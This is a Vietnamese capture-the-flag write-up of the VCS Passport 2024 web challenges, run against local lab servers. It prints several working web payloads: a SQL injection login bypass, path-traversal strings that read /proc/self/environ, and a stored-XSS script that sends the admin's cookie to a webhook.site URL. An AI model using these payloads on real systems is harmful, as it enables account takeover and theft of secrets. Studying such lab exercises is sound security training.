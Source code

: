 ```yaml
---
title: "Writeup VCS Passpost 2024 [WEB]"
date: "2025-01-16"
excerpt: "Challenges: https://github.com/DuongHaoNika/VCS_Passport_2024_Web"
featured: "/images/viettel.jpg"
---
```


<!-- Source các challenge: https://github.com/DuongHaoNika/VCS_Passport_2024_Web -->

## Bài Web01-Flag1
Khi bấm vào link, mình thấy giao diện như sau:

![image](https://github.com/user-attachments/assets/6ff658e5-6eac-4c76-855e-a0f068b128aa)

Sau đó đọc source code thấy route /freeflag:

![image](https://github.com/user-attachments/assets/b1c152e8-ca35-4e35-af80-ddd8404476d7)

![image](https://github.com/user-attachments/assets/21719077-75c5-4f36-aa35-b99374801a54)

Sau đó thấy server trả về session như hình

![image](https://github.com/user-attachments/assets/54be6e44-c4b9-4334-b265-d18b783cbabd)

=> Có thể là jwt. Vào trang jwt.io check:

![image](https://github.com/user-attachments/assets/ddbb660a-9456-4f87-b68e-e2ca367d1aa0)

=> Flag: `VCS{Web01-Flag1-680c37cc-6147-4d08-8c11
29c91b2a50bf}`

## Bài Web01-Flag2

Sau khi đọc source code, thấy chỉ lấy được Flag02 trong trường hợp login với admin

![image](https://github.com/user-attachments/assets/818e8fed-f673-4ef0-abf5-32345153c4e0)

Trước tiên thì tìm hiểu xem cơ chế mà server xử lý login như nào

![image](https://github.com/user-attachments/assets/bee9d8e7-cfa2-4f65-83a0-729392068f35)

![image](https://github.com/user-attachments/assets/81ca0b0b-bd16-4541-afec-accf6709a5fd)

Hàm `execute` đã trực tiếp nối input của người dùng (username) vào trực tiếp câu lệnh SQL => SQLInjection
Server kiểm tra trước xem có tồn tại username không, nếu có thì lấy password đã
được hash md5 (lưu trữ) trong database, và lấy password người dùng nhập, hash md5
password đó => Kiểm tra xem 2 hash trùng nhau không => Trùng thì đăng nhập thành
công.

Hoàn toàn có thể tận dụng lỗi SQL Injection trên, union select 1 tài khoản admin
và 1 mật khẩu đã được mã hóa md5

![image](https://github.com/user-attachments/assets/a2ae19fc-82ce-494e-b830-1d75aecc975f)

Đọc source => Sử dụng SQLite3
 
Sau đó vào Burp Suite, chỉnh giá trị username như sau:

```
abc") UNION SELECT 'admin', '202cb962ac59075b964b07152d234b70'-
```

Password cung cấp: `123`

Ở đây để phần đầu username là abc, để server không tìm thấy user có username là
abc thì user phía sau được lấy => Fake được user admin

![image](https://github.com/user-attachments/assets/8cb57872-1fec-486e-a0d1-83f3be96e85c)

![image](https://github.com/user-attachments/assets/ef41237b-cb00-4c8c-afc1-ff9bd11555ba)

## Bài Web01-Flag3

Đọc file `start.sh`:

![image](https://github.com/user-attachments/assets/46e53fbb-de7c-4790-8ba2-009809fe2cab)

Thấy `$FLAG3` chưa unset => vẫn nằm trên environ của tiến trình. 

Khi đọc src thì mình nhận ra field `title` không hề được validate:

![image](https://github.com/user-attachments/assets/8e545b71-1856-46f5-a82a-a402e49906b6)

![image](https://github.com/user-attachments/assets/203c4e08-1a96-4575-8939-eca0baa1feff)

Ý tưởng là mình sẽ inject vào field `title` để thực hiện Path Traversal, đọc file `/proc/self/environ` hoặc `/proc/1/environ`

Đầu tiên mình tạo request với CURL:

```
curl.exe -X POST http://localhost:9001/upload-meme -F "meme=@dockerfile" -F "title=title" -x 127.0.0.1:8080 -v
```

Qua Burp Suite

![image](https://github.com/user-attachments/assets/38bc81eb-70b0-439d-96e0-33f95c8f643d)

![image](https://github.com/user-attachments/assets/45623108-09a2-4dd9-a0ec-c348ae27e682)

Sửa `title` thành 
```
aaaaaaaa", "../../../../../../../proc/self/environ") --
```

![image](https://github.com/user-attachments/assets/e564fe87-8482-48f5-a650-c484860ad4c4)

## Bài Web04

![image](https://github.com/user-attachments/assets/3227a8a9-8a2e-4d30-9dca-61518c18e4a3)

Đây là code python, trong index có hàm render_template() không bị SSTI (render_template_string thì bị) 

Mình để ý đến `/feedback`

![image](https://github.com/user-attachments/assets/222453fd-2a1f-44ab-8f07-87264dafe107)

`subject` được đưa vào nối chuỗi => Có thể bị Path Traversal

Sau khi xem và tìm hiểu thì hàm unidecode() có thể chuyển `\`, `\\` về `/` => bypass được '/'

Xem docker và check được user có thể ghi vào folder `errors`

![image](https://github.com/user-attachments/assets/7f9c036e-8a96-466f-a311-be5a62aeb26d)

Ý tưởng là mình sẽ Path Traversal qua field `subject` và thực hiện lệnh gì đó qua field `content`

![image](https://github.com/user-attachments/assets/c37ebc67-3173-4d4d-b015-b9456bc0aaf5)

Lấy được flag trong config (`app.config['FLAG'] = os.environ['FLAG']`)

![image](https://github.com/user-attachments/assets/32689981-3073-4d73-86ce-894a6fa7a19f)

## Bài Web06

![image](https://github.com/user-attachments/assets/7ed53f13-bee9-4c5f-a6cd-5dfa0a469572)

Khi đọc source mình để ý 2 hàm dưới

![image](https://github.com/user-attachments/assets/c438988e-213f-466a-8fad-8e184f7262ee)

Check tiếp hàm register

![image](https://github.com/user-attachments/assets/0b141994-a8e7-4603-9db5-b3e7b5da7581)

 Nhận thấy `email` và `bio` đã bị filter XSS. Còn username được lấy từ
 `session[“username”]`. Mà `username` trong hàm register lấy trực tiếp từ người dùng
 => `username` là **untrusted data**
 
 Hàm report profile => khả năng được gửi lên để admin xem
 => sẽ ra sao nếu report 1 nick có username với payload xss để cướp cookie admin
 khi xem
Đầu tiên tạo 1 user có username:
 
```
<script>fetch(`https://webhook.site/d15deb00-b0fb-43ad-a288480ba00c2c37?cookie=${document.cookie}`)</script>
```

![image](https://github.com/user-attachments/assets/0bc89596-9dae-487e-8117-3093ac458c2d)

 Sau đó tạo user khác, mục đích để lấy nick này report nick trên

![image](https://github.com/user-attachments/assets/2f4beadc-27a7-4a6e-9aa8-f6f3bd68e262)

Ví dụ: http://localhost:9006/profile/3ab3a9de-3571-48a4-bb01-257486e69f3a

![image](https://github.com/user-attachments/assets/1a474131-6ce2-4fb1-aa96-a42e1acc66ed)

Check webhook

![image](https://github.com/user-attachments/assets/f02f255e-d72a-4c14-846f-fab4d0193d3f)

Flag: `VCS{web06-2f29cec6-b8ea-4126-a2cd-a213bb332150}`
